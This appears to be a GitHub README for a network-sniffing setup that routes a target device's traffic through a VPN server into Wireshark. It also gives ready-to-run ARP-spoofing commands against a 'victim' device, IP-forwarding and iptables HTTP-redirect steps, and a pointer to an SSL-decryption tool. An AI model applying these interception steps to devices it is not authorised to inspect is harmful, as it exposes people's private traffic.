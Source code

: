 # Install

Make sure you have docker and wireshark installed.

#### Windows:
Download and install docker and wireshark from their websites.

#### Ubuntu:
```
apt-get install docker wireshark
```

#### Mac:
```
brew install docker wireshark
```

# Usage

Initialize the server for the first time.
```
./init.sh server_ip
```

Start the server.
```
./start.sh
```

Create a client.
```
./create_client.sh client_name
```

Transfer the client's configuration file to the target device.

Connect to the VPN server from the target device (search for OpenVPN on the Appstore).

Open wireshark and start sniffing.
```
./wireshark.sh
```

# Sniffing without VPN
It's possible to sniff the data after poisoning the arp table of the target device, although a few extra steps are required to allow the traffic to pass through.

#### Windows
Install Linux or get a Mac and continue.

#### Ubuntu
From: https://github.com/moxie0/sslstrip

Install arpspoof
```
apt-get install arpspoof
```

Flip your machine into forwarding mode (as root):
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Setup iptables to intercept HTTP requests (as root):
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
```

#### Mac
From http://iosmanbh.blogspot.com/2014/09/mac-os-x-arp-spoofing.html

Install macport

Install dsniff
```
sudo port selfupdate
sudo port install dsniff-devel
```

Find victim ip
```
arp -a
```

Open net forwarding,it will forward packets which recive to Internet Connection.
```
sudo sysctl -w net.inet.ip.forwarding=1
sudo sysctl -w net.inet.ip.fw.enable=1
```

Arpspoof Router
```
sudo arpspoof -i Yourineterface -t victim_ip router_ip
sudo arpspoof -i Yourineterface -t router_ip victim_ip
```

Example:
```
sudo arpspoof -i en0 -t 192.168.1.100 192.168.1.1
sudo arpspoof -i en0 -t 192.168.1.1 192.168.1.100
```

# Another way (requires root access to the device, but more stable)
Instead of arp spoofing, just login to the device and edit its arp tables.

To make sure the connection will still be up, we need to enable IP forwarding (through our sniffing computer) first.

#### Mac
```
sudo sysctl -w net.inet.ip.forwarding=1
```

#### Linux
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Now log into the device and edit its arp tables using the following command:
```
arp -s [target] [my_computer_mac_address]
```

# Decrypt ssl communication
See [iOS SSL Sniffer](https://github.com/gkpln3/ios_ssl_sniffer)
